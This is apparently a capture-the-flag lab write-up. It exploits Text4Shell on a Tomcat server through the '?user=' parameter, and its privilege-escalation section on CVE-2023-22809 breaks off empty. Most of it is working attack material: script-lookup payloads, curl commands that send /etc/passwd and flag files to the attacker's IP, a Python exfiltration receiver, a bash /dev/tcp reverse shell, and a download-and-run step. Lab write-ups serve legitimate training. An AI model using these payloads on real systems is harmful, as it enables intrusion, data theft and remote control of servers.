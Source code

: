 # Lab 1 - Text4Shell & CVE-2023-22809

##

## Goal

Exploit a vulnerable Tomcat server to get a foothold and escalate your privileges with a vulnerable sudoedit!

## Summary

I might not drop pictures, thats because i wrote this after solving the lab. But don't worry, the payloads works.

So we have to exploit 2 vulnerabilities which are;  `Text4Shell CVE-2022-42889` and `CVE-2023–22809, exploiting a vulnerable sudo version` . The lab actually compels each player to learn how each of the Vulnerabilities work in order to find the 2 flags and complete the lab.

## Exploitation Process

### 1 - Enumeration / Recon

After starting the lab, you have to download the `.ovpn` file, then connect. after connecting there is only one tagret (the vulnerable Tomcat Server). I started with nmap scan which shows only 2 ports were open; `8080 [Tomcat web server] and 22 [SSH]` .

I tried things like; viewing source-code to chech for any clues, visiting "http://ip:8080/robots.txt" and "http://ip:8080/sitemap.xml" but found nothing there. I also tried directory bruteforcing using `ffuf` which didn't produce any result. So i went back and googled "Text4Shell" and saw it was a vulnerability with "CVE-2022-42889", there are many proof of concepts in various Github repositories, but they won't work. You have to exploit it manually.

### 2 - Remote Code Execution

So i read up about the vuln. The vulnerability affects the [StringSubstitutor](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/StringSubstitutor.html) interpolator class, which is included in the Commons Text library. A default interpolator allows for string lookups that can lead to Remote Code Execution. This is due to a logic flaw that makes the “script”, “dns” and “url” lookup keys interpolated by default, as opposed to what it should be, according to the documentation of the [StringLookupFactory](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/lookup/StringLookupFactory.html) class. Those keys allow an attacker to execute arbitrary code via lookups. Basically this is caused as a ressult of pasing unsanitised user input to web application entry points.

When i visited the vulnerable target "http://ip:8080" in the source code you see a "/?user=default" which the value of user ie; "default" is displayed on the front page when you visit the app. So basically whatever you pass is being rendered on the Web Front Page.

Vulnerable endpoint : `http://ip:8080/?user=`&#x20;

There are various payloads we could use to do many thing like reading local files assuming you know what files are located where in the victim system.&#x20;

`${script:javascript:java.lang.Runtime.getRuntime().exec('COMMAND-HERE')}`&#x20;

We can use the above payload to execute remote commands on the victim machine. When you run commands like `id, whoami, hostname` you don't get any response back, so we have to find a way to smuggle the content of these commands.

{% code overflow="wrap" %}
```bash
# 1st step.
# setup a python server in your kali, running on port 80 that supports POST request because we will use curl to smuggle out the contents of local files.
# i used chatgpt to create the server:
```
{% endcode %}

<details>

<summary>Custom python server for smuggling out local file contents</summary>

{% code overflow="wrap" %}
```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        # Read the length of the data
        content_length = int(self.headers['Content-Length'])
        # Read the data
        post_data = self.rfile.read(content_length)

        # Save the data to a file
        with open('received_file', 'wb') as file:
            file.write(post_data)

        # Send a response
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'POST request received')

def run(server_class=HTTPServer, handler_class=RequestHandler, port=80):
    server_address = ('KALI-IP-HERE', port)
    httpd = server_class(server_address, handler_class)
    print(f'Starting httpd server on port {port}')
    httpd.serve_forever()

if __name__ == '__main__':
    run()
```
{% endcode %}

</details>

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># server is ready, run it:
python3 custom_python_server.py

# 10.8.0.2 is the target, 10.8.0.4 is our kali ip.
# then i use this payload to get the /etc/passwd contents out.
${script:javascript:java.lang.Runtime.getRuntime().exec('curl --data-binary @/etc/passwd 10.8.0.4/passwd_file')}

# you have to url encode it:
%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec(%27curl%20--data-binary%20%40%2Fetc%2Fpasswd%2010.8.0.4%2Fpasswd_file%27)%7D

# now visit this url on the browser, while the custom server is running..
<strong>http://10.8.0.2:8080/?user=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27curl%20--data-binary%20@/etc/passwd%2010.8.0.4/passwd%27%29%7d
</strong><strong>
</strong><strong># you will receive a file "received_file", when you cat it "cat received_file" you get contents of the /etc/passwd file.
</strong><strong>
</strong><strong>
</strong><strong># 2nd step.
</strong><strong># we can use this to get the 1st flag located in "/home/local.txt", how did i know this? the admin mentioned this in the Sec-Dojo Discord server.
</strong>${script:javascript:java.lang.Runtime.getRuntime().exec('curl --data-binary @/home/local.txt 10.8.0.4/flag')}

# encoded.
%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec(%27curl%20--data-binary%20%40%2Fhome%2Flocal.txt%2010.8.0.4%flag%27)%7D

# final payload.
http://10.8.0.2:8080/?user=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27curl%20--data-binary%20@/home/local.txt%2010.8.0.4/flag%27%29%7d

# and we get the 1st flag also.
</code></pre>

### 3 - Initial Access (Reverse Shell)

Time to get a Reverse shell so we can get the second flag located in `/root/proof.txt` .

{% code overflow="wrap" %}
```bash
# step 1
- we create a file (shell.sh) with contents:
bash -i >& /dev/tcp/10.8.0.4/4433 0>&1

# step 2.
# host our local python server, here we can use a simple python server.
python3 -m http.server 80

# step 3
# we are going to use curl to download this "shell.sh" file from our server into the victim server /tmp directory. Using this payload:
${script:javascript:java.lang.Runtime.getRuntime().exec('curl -s 10.8.0.4/shell.sh -o /tmp/shell.sh')}

# encoded.
%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec(%27curl%20-s%2010.8.0.4%2Fshell.sh%20-o%20%2Ftmp%2Fshell.sh%27)%7D

# final payload.
http://10.8.0.2:8080/?user=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27curl%20-s%2010.8.0.4/shell.sh%20-o%20/tmp/shell.sh%27%29%7d

# we can see in the image below it was successfully download.
```
{% endcode %}

<figure><img src="../.gitbook/assets/Selection_005.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# step 4
# now we have to execute the download "shell.sh" file. But first we need to be listening on our kali to catch the connection.
nc -nvlp 4433

# now execute the file.
${script:javascript:java.lang.Runtime.getRuntime().exec('bash /tmp/shell.sh')}
# encoded.
%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27bash%20/tmp/shell.sh%27%29%7d

# final payload.
10.8.0.2:8080/?user=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27bash%20/tmp/shell.sh%27%29%7d

# BOOM, we get a reverse shell.
# stabilizing the shell. just use these cmds.
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL + Z # to temporarily background the process.
stty raw -echo; fg
# we have a full fleged shell.
```
{% endcode %}

## Privilege Escalation

Time to exploit the `CVE-2023–22809` to gain root privilege on the machine. I also saw many exploits on various github repos, which didn't work. I had to exploit it maually.

This vulnerability exploited vulnerable sudo versions by using the "sudoedit" to elevate low level user access into root shell access. It affects versions of sudo from `1.8.0` through `1.9.12p1`. Our target version is&#x20;

\


{% code overflow="wrap" %}
```bash
```
{% endcode %}



